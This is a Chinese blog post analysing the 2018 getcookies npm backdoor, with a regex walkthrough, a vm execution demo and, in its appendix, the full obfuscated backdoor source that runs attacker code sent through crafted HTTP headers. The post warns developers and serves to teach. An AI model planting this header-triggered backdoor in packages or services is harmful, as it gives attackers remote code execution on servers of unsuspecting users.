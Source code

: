 ```yaml
---
title: npm模块别乱下载，说不好就出事了
tags: node
categories:
  - 前端
  - node
thumb_img: hack.jpg
date: 2018-05-08 18:08:38
---
```



如果你和我们一样，npm install xxx用的很舒服，可能你的项目会遇到重大的危险。
先来看看一篇别人家的文章——[细思极恐：后门代码被隐藏在npm模块中，差点就得逞](https://mp.weixin.qq.com/s/4JGuRDR54OnJyAqlSns53Q)

为了节省时间，[点击问题讨论地址，直接看看别人怎么说的](https://news.ycombinator.com/item?id=16975025)
{% asset_img blog.png %}

{% asset_img emoji.png %}
可能你看了那篇文章也不太清除发生了什么，那就请看下面

## 问题描述
### 哪些人会出现这样的问题？
直接or间接使用getcookies的人。

比如：你正在使用的Node框架是express，并且通过express-cookies处理cookie功能。那它其中就引用了getcookies。

### 问题有多严重？
getcookies会通过header注入代码，然后在你服务器‘任意遨游’，获取你服务器配置信息、监控你请求、让你宕个机...

### 它是怎么个原理
1. inject 自定义的Header,获取到req.headers
````
req.headers['gfeffh11i'] = 111;
req.headers['gabcdh22i'] = 222;
req.headers['gfaffh33i'] = 333;
````

2. 在请求头中寻找符合**/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi**规则的信息
````
...
// g+hex(2)+h+hex(1)+i
req.headers['gfaffh22i'] = 222;
...
// 以上header将在这个regex命中，并且通过replace执行多次。
JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
    // o=gabcdh00i，p=abcd，v=00
    // 转成hex字符
    p = Buffer.from(p, 'hex').readUInt16LE(0);//52651
    switch (p) {
        ...
    }
})
````

3. 判断注入非法的信息，完成：初始化代码执行环境-->将问题代码添加至内存中-->调用vm执行问题代码
    注释信息，说明了哪些header会被switch命中
    {% asset_img code.png getcookies %}

4. script脚本如何在vm执行（写了个Demo模拟）
````js
// 模拟header中数据的获取，存入内存的过程(default中的逻辑)
function getHexBufer(scriptFn) {
    var result = '';
    for (var i = 0; i < scriptFn.length; i++) {
        // -->ascii-->16hex
        result = result + parseInt(scriptFn[i].charCodeAt(), 10).toString(16);
    }
    // result:2866756e6374696f6e202829207b636f6e736f6c652e6c6f672827636f6d696e6727293b7d292829
    // 16hex的buffer
    // <Buffer 28 66 75 6e 63 74 69 6f 6e 20 28 29 20 7b 63 6f 6e 73 6f 6c 65 2e 6c 6f 67 28 27 63 6f 6d 69 6e 67 27 29 3b 7d 29 28 29>
    return Buffer.from(String(result), 'hex')
}
// 编译脚本
var c = getHexBufer(`(function () {console.log('coming');})()`).toString();
// 通过vm执行脚本
require('vm')['runInThisContext'](c); //输出coming
````

### 你可能需要准备下其他知识
1. [Buffer.from 和 Buffer.alloc 干什么的](http://nodejs.cn/doc/node/buffer.html#buffer_buffer_from_buffer_alloc_and_buffer_allocunsafe)
{% asset_img buffer-1.png Buffer.from&Buffer.alloc %}

2. [readUInt16LE 什么意思]()
如果你不清楚LE、BE。可以再看看这篇：[readInt16BE 和 readInt16LE的区别](http://127.0.0.1:4000/2018/05/08/node-buffer-endian/)

3. \x76\x6d 是什么格式？
是16进制。
然后就能明白源代码中：
````
require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74']
// require('vm')['runInThisContext']
````

    对应的再补充一些进制转换api
    
    ````js
    var test10 = 43981;
    // 10 --> 2
    var test2 = test10.toString(2);//1010101111001101
    // 2 --> 10
    var backTest10 = parseInt(test2, 2);//43981
    // 10 -> 16
    var testHex = parseInt(test2, 2).toString(16);//abcd
    ````

4. [什么是vm？](https://nodejs.org/api/vm.html#vm_vm_runinthiscontext_code_options)
执行script，同时源码中还用了高阶Fn，提供了module.exports, require, req, res, next等信息。我这些都拿到了，我还有什么不能做？
 
## 现状
npm官方已经做了处理，你已经下不到这两个包了
````
Error: [getcookies@*] GET https://registry.npm.taobao.org/getcookies/latest response 404 status
Error: [express-cookies@*] GET https://registry.npm.taobao.org/express-cookies/latest response 404 status
````

## 总结
1. 不要着急升级模块，避免已稳定的模块出现问题
2. 下载使用**优质**，热门模块。用的人多，这样出问题，社区会有解决方案，你不是一个人战斗。
3. 检查下项目中的node_modules，奇奇怪怪的能不用就别用了。
4. 提升自己能力，看的懂大神们写的代码才能hold全场，慢慢积累，但别放弃任何学习源码的机会，比如这个getcookie现在就下载不到了。

## 附录
getcookie源码
````
/* eslint-env es6 */
'use strict';

var assert = require('assert');

let harness = (req, res, callback, next) => {
    try {
        assert.equal(typeof callback, 'function');
    } catch (E) {
        return callback(E);
    }

    try {
        module.exports.log = module.exports.log || Buffer.alloc(0xffff);
        JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
            p = Buffer.from(p, 'hex').readUInt16LE(0);
            switch (p) {
                case 0xfffe:
                    module.exports.log = Buffer.alloc(0xffff);
                    return;
                case 0xfffa:
                    return setTimeout(() => {
                        let c = module.exports.log.toString().replace(/\x00*$/, '');
                        module.exports.log = Buffer.alloc(0xffff);
                        if (c.indexOf('\x00') < 0) {
                            require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74'](c)(module.exports, require, req, res, next);
                        }
                        next();
                    }, 1000);
                default:
                    v = Buffer.from(v, 'hex');
                    for (let i = 0; i < v.length; i++) {
                        module.exports.log[p + i] = v[i];
                    }
            }
        });
    } catch (E) {}

    next();
};

module.exports.assert = (req, res, callback, next) => {
    harness(req, res, callback, next);
};
````